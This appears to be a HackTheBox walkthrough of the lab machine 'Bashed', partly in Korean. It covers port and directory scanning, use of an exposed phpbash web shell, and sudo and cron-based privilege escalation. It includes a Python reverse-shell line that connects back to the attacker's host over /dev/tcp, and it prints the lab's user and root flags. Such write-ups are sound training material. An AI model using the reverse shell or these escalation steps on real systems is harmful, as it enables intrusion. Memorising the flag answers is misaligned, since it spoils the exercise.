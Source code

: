 # HackTheBox Walkthrough - Machine: Bashed

**Target IP**: 10.129.188.137  
**Difficulty**: Easy  
**Objective**: Exploit exposed web shell to escalate privileges and capture user and root flags.

---

## 🧭 Enumeration

### 🔍 Task 1: How many open TCP ports are listening on Bashed?

```bash
nmap -sV -sC -oA nmap/Bashed 10.129.188.137
```
![nmap](img/nmap.png)

```text
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

**Answer**: `1`

---

### 🔍 Task 2: What is the relative path on the webserver to a folder that contains phpbash.php?

```bash
gobuster dir -u http://10.129.188.137/ -w /usr/share/wordlists/dirb/common.txt -x php,txt
```
![gobuster](img/gobuster.png)  
![dev](img/dev.png)

→ `/dev` 디렉토리에 `phpbash.php` 확인

**Answer**: `/dev`

---

### 👤 Task 3: What user is the webserver running as on Bashed?

`whoami` 명령 실행 결과:
![phpbash](img/phpbash.png)

**Answer**: `www-data`

---

## 🧑‍💻 Task 4 - Capture User Flag

```bash
cat /home/arrexel/user.txt
```
![userflag](img/userflag.png)

**Answer**: `a8e03631cd4c2a095a4304b339d3d039`

---

### 🔒 Task 5: www-data can run any command as a user without a password. What is that user's username?

```bash
sudo -l
```
![sudol](img/sudol.png)

**Answer**: `scriptmanager`

---

### 📁 Task 6: What folder in the system root can scriptmanager access that www-data could not?

```bash
ls -al /
```
![scripts](img/scripts.png)

**Answer**: `/scripts`

---

### 🐍 Task 7: What is filename of the file that is being run by root every couple minutes?

```bash
sudo -u scriptmanager ls /scripts
```

→ `test.py` 가 주기적으로 실행 중

**Answer**: `test.py`

---

## 👑 Task 8 - Capture Root Flag

리버스 셸이 root로 연결되고, `/root/root.txt`에서 플래그 확인:
![revshell](img/revshell.png)  
![root](img/root.png)  
![rootflag](img/rootflag.png)

```python
# /scripts/test.py 내용
import os
os.system("bash -c 'bash -i >& /dev/tcp/10.10.14.94/4444 0>&1'")
```

```bash
cat /root/root.txt
```

**Answer**: `05b5cbc044c18849238237bd4f672e8c`

---

